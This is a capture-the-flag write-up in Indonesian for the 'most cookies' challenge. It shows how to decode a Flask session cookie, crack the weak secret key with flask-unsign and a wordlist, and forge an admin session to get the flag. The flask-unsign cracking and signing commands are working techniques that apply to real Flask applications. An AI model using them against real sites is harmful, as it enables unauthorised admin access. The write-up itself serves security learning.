








# most cookies

## Alat
- install flask

## Steps


1. Karena soal ini tentang cookies, maka setelah masuk ke websitenya kita cookies yang dimiliki website tersebut (bisa melalui inspect element).

Disini session yang saya dapat adalah "eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZJwv8g.UnXxAK_EhhV2PNwUhx_T2qoRpYM"

2. Di soal juga disebut bila website ini menggunakan flask. Maka kita akan download flask-unsign untuk mendecode session ini.

3. Di command prompt, kita masukkan perintah `flask-unsign --decode --cookie "FLASK_SESSION"` kita bisa mendapatkan plaintext dari session yang sudah kita terima.


4. Mari sejenak kita analisis file server.py yang diberikan oleh soal.
```python
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)
```
Dari penggalan source code diatas, kita tahu jika cookies yang digunakan terbatas pada value di variabel cookie_name, lalu secret key yang digunakan diambil secara random dari cookie_names juga.

```python
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp
```
Melihat fungsi diatas, untuk bisa mendapat flagnya, kita harus mengganti cookie nya menjadi admin.

5. Sekarang kita akan cari secret key yang digunakan pada session yang kita dapatkan tadi, pertama kita buat dulu wordlist yang berisi semua kemungkinan cookie yang ada. (diambil dari kumpulan cookie tadi dan juga 'blank')


6. Lalu kita akan menggunakan perintah `flask-unsign --unsign --cookie "FLASK_SESSION" --wordlist PATH\TO\WORDLIST`

Disini kita sudah mendapatkan secret keynya

7. Selanjutnya masukkan perintah`flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret "SECRET_KEY"`


8. Copy kode enkripsi tadi untuk menggantikan value pada website session, lalu refresh.


9. Flag sudah kita dapat.
